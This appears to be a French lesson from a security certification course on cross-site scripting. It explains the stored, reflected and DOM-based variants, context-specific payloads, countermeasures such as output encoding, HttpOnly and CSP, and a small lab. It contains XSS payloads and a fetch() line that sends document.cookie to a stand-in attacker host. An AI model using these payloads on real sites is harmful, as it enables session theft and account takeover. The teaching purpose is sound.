

## Introduction

Le Cross-Site Scripting (XSS) permet d'injecter du code JavaScript arbitraire, exécuté dans le navigateur d'une victime au sein du contexte de confiance d'un site légitime. Contrairement à l'injection SQL qui vise le serveur, le XSS vise directement les utilisateurs de l'application.

## Les trois variantes de XSS

<CompareTable
  titleA="Type"
  titleB="Mécanisme"
  rows={[
    { a: "XSS Stocké (Persistent)", b: "Le payload est enregistré côté serveur (commentaire, profil) et exécuté pour chaque visiteur de la page" },
    { a: "XSS Réfléchi (Reflected)", b: "Le payload est renvoyé immédiatement dans la réponse HTTP, sans stockage — nécessite de piéger la victime via un lien" },
    { a: "XSS DOM-based", b: "Le payload n'atteint jamais le serveur : il est exécuté entièrement côté client via une manipulation JavaScript du DOM" },
  ]}
/>



<CehCallout>
Le XSS stocké est considéré comme le plus dangereux des trois : contrairement au réfléchi, il ne nécessite aucune ingénierie sociale pour piéger la victime — n'importe quel visiteur de la page compromise est automatiquement touché.
</CehCallout>

## Construire un payload selon le contexte

Le payload à utiliser dépend precisément de l'endroit où l'injection atterrit dans le HTML généré.

```html
<!-- Contexte : injection directe dans le corps HTML -->
<script>alert(document.cookie)</script>

<!-- Contexte : injection dans un attribut HTML (ex: value="INJECTION") -->
"><script>alert(1)</script>

<!-- Contexte : la balise <script> est filtrée, utiliser un gestionnaire d'événement -->


<!-- Contexte : injection dans du JavaScript existant -->
';alert(document.cookie);//
```

<TipCallout>
Une bonne pratique de test consiste à commencer par un payload d'identification neutre comme `<script>alert(1)</script>` pour confirmer l'exécution, avant de construire un payload d'impact réel (vol de cookie, keylogger) — cela évite de perturber inutilement l'application pendant la phase de détection.
</TipCallout>

## De la preuve de concept à l'impact réel

<Steps steps={[
  { title: "Confirmer l'exécution", description: "Un simple alert() confirme que le JavaScript s'exécute dans le contexte de la page." },
  { title: "Voler la session", description: "Exfiltrer le cookie de session vers un serveur contrôlé par l'attaquant, permettant l'usurpation d'identité sans connaître le mot de passe." },
  { title: "Piéger l'interface (keylogger, phishing intégré)", description: "Injecter un formulaire ou un enregistreur de frappe qui capture les identifiants directement saisis par la victime, qui croit être sur le site légitime." },
]} />

```html
<!-- Exfiltration de cookie vers un serveur contrôlé par l'attaquant -->
<script>fetch('http://attaquant.evil/steal?c=' + document.cookie)</script>
```

<WarningCallout>
Un cookie de session volé permet souvent une prise de contrôle totale du compte, sans jamais connaître le mot de passe — c'est pourquoi l'attribut `HttpOnly` sur les cookies de session (qui les rend inaccessibles à JavaScript) est une contre-mesure fondamentale, indépendamment de tout filtrage XSS.
</WarningCallout>

## Contre-mesures

<AttackDefenseTable rows={[
  { phase: "Prévention", attack: "Injection de code exécutable dans une page", defense: "Encodage systématique des sorties (output encoding) selon le contexte HTML/attribut/JS" },
  { phase: "Limitation d'impact", attack: "Vol de cookie de session via JavaScript", defense: "Attribut HttpOnly sur les cookies sensibles — les rend invisibles à document.cookie" },
  { phase: "Défense en profondeur", attack: "Contournement d'un filtre de sortie unique", defense: "Content Security Policy (CSP) restreignant les sources de script autorisées" },
]} />

<AuditCallout>
La Content Security Policy (CSP) est une mesure de défense en profondeur particulièrement recommandée : même si un XSS parvient à s'injecter, une CSP bien configurée (`script-src 'self'`) peut empêcher l'exécution du script injecté s'il provient d'une source non autorisée.
</AuditCallout>

## Lab — Mise en Pratique

**Environnement** : Kali Linux (terminal Nyx Shell)

<Steps steps={[
  { title: "Tester un payload de confirmation", description: "Soumets un payload neutre dans un champ de saisie pour confirmer l'exécution.", code: "echo '<script>alert(1)</script>' " },
  { title: "Identifier le contexte d'injection", description: "Inspecte le code source HTML renvoyé pour voir où ton entrée atterrit exactement." },
  { title: "Construire un payload adapté", description: "Adapte le payload selon que l'injection atterrisse dans le corps HTML, un attribut, ou du JavaScript existant." },
]} />

## En résumé

- Le XSS injecte du JavaScript exécuté dans le navigateur de la victime, au sein du contexte de confiance du site légitime.
- Trois variantes existent : stocké (le plus dangereux), réfléchi et DOM-based.
- Le payload à utiliser dépend précisément du contexte d'injection dans le HTML généré.
- L'encodage de sortie contextuel, l'attribut HttpOnly et la CSP forment les trois piliers de la défense contre le XSS.

## Questions de Révision

1. Pourquoi le XSS stocké est-il considéré comme plus dangereux que le XSS réfléchi ?
2. À quoi sert l'attribut HttpOnly sur un cookie de session ?
3. Que permet de restreindre une Content Security Policy ?
